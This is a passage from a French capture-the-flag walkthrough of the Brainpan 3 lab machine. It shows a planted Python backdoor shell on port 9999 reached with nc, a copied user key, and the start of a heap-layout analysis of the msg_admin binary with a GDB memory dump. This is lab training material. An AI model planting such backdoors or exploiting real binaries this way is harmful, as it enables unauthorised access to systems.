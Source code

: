 On aura préalablement placé une backdoor Python à l'emplacement */tmp/backdoor.py* nous donnant un shell sur le port 9999.  

```plain
$ nc 127.0.0.1 9999 -v
Connection to 127.0.0.1 9999 port [tcp/*] succeeded!
puck@brainpan3:/$ id
uid=1001(puck) gid=1004(dev) groups=1001(puck)
```

On s'empresse de recopier le contenu de la clé de *puck* (*HBN48HY71ERG5GA6290V*) dans */mnt/usb/key.txt* pour les accès futurs :p  

Rop hop hop ? Exploit !
-----------------------

Avec la possibilité d'écrire dans le dossier */opt/.messenger* on est donc en face de ce qui est très certainement la dernière étape du CTF :)  

Ce binaire prend deux arguments : un entier correspondant à un niveau de priorité ainsi qu'un nom de fichier.  

Ce dernier doit être formaté spécifiquement comme indiqué dans le message d'usage :  

```plain
Message file format: requestername|message
Eg: tony|Add a new user to repo
Can have multiple messages in a single file separated by newlines.
Eg: tony|Please remove /tmp/foo
    cate|Reset password request.
```

Si on lit le code assembleur du *main()* on remarque la création de trois buffers alloués sur le tas de tailles respectives de 400, 20 et 100 octets.  

On passe ensuite par 3 boucles successives :  

* une boucle de comptage de lignes via *getlines()*
* une boucle de *malloc()* qui pour chaque ligne alloue des buffers de 12, 10 et de 200 octets
* une boucle qui traite chaque ligne avec un *strtok()* pour les couper au niveau du caractère pipe et recopie à l'aide de *str(n)cpy()* les deux parties vers chacun des buffer alloués

Ces éléments sont stockés dans des structures et leurs adresses sont stockées dans un tableau dans la stack situé à *ebp-0x44*. On peut schématiser ainsi :  

![Brainpan 3 CTF msg_admin memory structures](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_3/bp3_msg_admin_memory.png)

On a donc dans le tableau des adresses vers des structures d'une taille de 12 octets (3 dwords) stockées sur le tas.  

Chaque structure est composée de la priorité (premier dword), de l'adresse du nom d'utilisateur (stocké sur le tas aussi) et de l'adresse du message (sur le tas aussi).  

Le fonctionnement du programme fait que tous les chunks se suivent, comme on peut l'observer avec GDB :  

```plain
(gdb) x/4wx $ebp-0x44
0xffffd444:     0x0804d790      0x0804d880      0x0804d970      0x00008000
(gdb) x/90wx 0x0804d790
0x804d790:      0x00007a69      0x0804d7a0      0x0804d7b0      0x00000011
0x804d7a0:      0x7769626f      0x00006e61      0x00000000      0x000000d1
0x804d7b0:      0x6c6c6568      0x6874206f      0x00657265      0x00000000
0x804d7c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d7d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d7e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d7f0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d800:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d810:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d820:      0x00000000      0x00000000      0x00000000      0x00000000
0x804d830:      0x00000000      0x00000000      0x00000000      0x00000000
```